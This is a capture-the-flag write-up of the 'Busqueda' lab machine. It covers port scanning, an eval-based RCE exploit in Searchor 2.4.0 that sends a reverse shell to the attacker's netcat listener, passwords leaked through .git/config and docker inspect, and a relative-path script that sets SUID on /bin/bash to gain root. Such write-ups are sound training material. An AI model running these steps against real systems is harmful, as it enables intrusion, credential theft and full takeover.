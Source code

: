 ```yaml
---
layout: default
---
```



# Busqueda

# Skills

- Information leakage (version)
- .git password leakage
- Docker inspect password leakage
- Code execution as root via relative path

# Enumeration

Scan report two open ports.

```bash
┌──(kali㉿kali)-[~/machines/busqueda/enumeration]
└─$ cat fast_scan 
# Nmap 7.94 scan initiated Mon Sep 18 19:15:45 2023 as: nmap -p- -n -Pn -T4 -oG fast_scan -vvv 10.10.11.208
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.208 ()   Status: Up
Host: 10.10.11.208 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
# Nmap done at Mon Sep 18 19:16:07 2023 -- 1 IP address (1 host up) scanned in 21.41 seconds
```

Now we will launch reconnaissance scripts against this ports.

```bash
┌──(kali㉿kali)-[~/machines/busqueda/enumeration]
└─$ cat specific_scan 
# Nmap 7.94 scan initiated Mon Sep 18 19:16:37 2023 as: nmap -p22,80 -n -Pn -sCV -oN specific_scan 10.10.11.208
Nmap scan report for 10.10.11.208
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 18 19:16:46 2023 -- 1 IP address (1 host up) scanned in 8.55 seconds
```

# PORT 80

Here we can see a web page that allow us to select a search engine and launch a query.

![Untitled](/images/busqueda1.png)

When we perform a search using this service we can see that the URL is reported. Since the framework used is flask maybe we could perform a SSTI.

![Untitled](/images/busqueda2.png)

But the input of the user is correctly sanitized. We could also try to a SSRF modifying the search engine and instead use **localhost** using BurpSuite. However, that won’t work either.

# Foothold

If we take a closer look at the web page we can see that the version of ther service is exposed (**Searchor 2.4.0**), and actually is vulnerable to a RCE due to a bad use of the python **eval()** function.

```bash
┌──(kali㉿kali)-[~/machines/busqueda]
└─$ ./exploit.sh http://searcher.htb/search 10.10.14.17 4444
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is http://searcher.htb/search
[*] Input attacker is 10.10.14.17:4444
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

After this we have a reverse shell in out netcat listener.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                                                                                                  
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.208] 52130
bash: cannot set terminal process group (1665): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
```

First of all we will get a functional shell to operate with. There are various ways to do this.

```bash
svc@busqueda:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@busqueda:/var/www/app$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg               
[1]  + continued  nc -lnvp 4444
                               reset xterm
```

We export two environmental variables and we are done with this.

```bash
svc@busqueda:/var/www/app$ export TERM=xterm
svc@busqueda:/var/www/app$ export SHELL=bash
```

# Privilege escalation

We start by enumerating our user and current directory.

```bash
svc@busqueda:/var/www/app$ id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
svc@busqueda:/var/www/app$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4096 Sep 24 16:39 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 templates
```

We see a **.gi**t file, which is very interesting, because we can check the full log of the project and check configuration files. Inside this .git file we can see a config file which leaks a password for user cody in a gitea server.

```bash
svc@busqueda:/var/www/app$ cd .git/
svc@busqueda:/var/www/app/.git$ ls
branches        config       HEAD   index  logs     refs
COMMIT_EDITMSG  description  hooks  info   objects
svc@busqueda:/var/www/app/.git$ cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

Actually, this password can be used with our current user to execute **sudo -l** and check what commands we can execute with sudo.

```bash
svc@busqueda:/var/www/app/.git$ sudo -l 
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

When executing the script we can see that actually is used to manage docker containers. We can check which containers are running in the machine.

```bash
svc@busqueda:/opt/scripts$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py safdsf
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/opt/scripts$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   8 months ago   Up 30 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   8 months ago   Up 30 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

The interesing part is that we can execute ìnspect command from Docker that allows us to get the configuration of a Docker container.

```bash
svc@busqueda:/opt/scripts$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea | grep -iP "password|passwd|pass"
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,
"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"",
"Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2",
"maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Here we can see that the administrator password of the gitea server is leaked. This allow us to see all his private repositories and the source code of the script **system-checkup.py.** The source code reveals that when using the action full-checkup hte script seeks a bash script in the current directory using a relative path.

![Untitled](/images/busqueda3.png)

We can leverage this to execute a malicious bash script that execute a command as root. Setting our current directory as our home directory we simply have to write a file named **full-checkup.sh**. After, this we execute the **system-checkup.py** script as root from our home directory. The content of **full-checkup.sh** will set the **/bin/bash** binary with the SUID bit.

```bash
#!/bin/bash

chmod u+s /bin/bash
```

After executing **system-checkup.py** as root we will see that bash in the machine is SUID which allow us to become root with the command `bash -p`.

```bash
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```